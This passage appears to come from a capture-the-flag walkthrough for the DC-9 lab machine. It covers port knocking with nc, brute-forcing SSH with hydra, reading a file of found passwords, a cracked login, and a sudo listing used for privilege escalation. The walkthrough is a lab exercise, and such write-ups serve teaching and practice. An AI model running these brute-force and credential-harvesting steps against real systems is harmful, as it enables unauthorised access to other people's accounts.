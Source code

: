 So we open port 22 - SSH,

```bash
nc $IP 7469
nc $IP 8475
nc $IP 9842
```

### SSH - TCP 22

Brute force ssh with the usernames and passwords,

```bash
hydra -L user -P pass ssh://$IP
```



<figure><img src="../../.gitbook/assets/Pasted image 20231102195439.png" alt=""><figcaption></figcaption></figure>

## PrivEsc

### User1

With the user janitor we obtain new credentials

```bash
cat /home/janitor/.secrets-for-putin/passwords-found-on-post-it-notes.txt
BamBam01
Passw0rd
smellycats
P0Lic#10-4
B4-Tru3-001
4uGU5T-NiGHts
```

Brute force ssh again,

```bash
hydra -L user -P pass ssh://$IP
```

> login: fredf password: B4-Tru3-001

### User2

With the user fredf,

```bash
sudo -l

User fredf may run the following commands on dc-9:
    (root) NOPASSWD: /opt/devstuff/dist/test/test
```
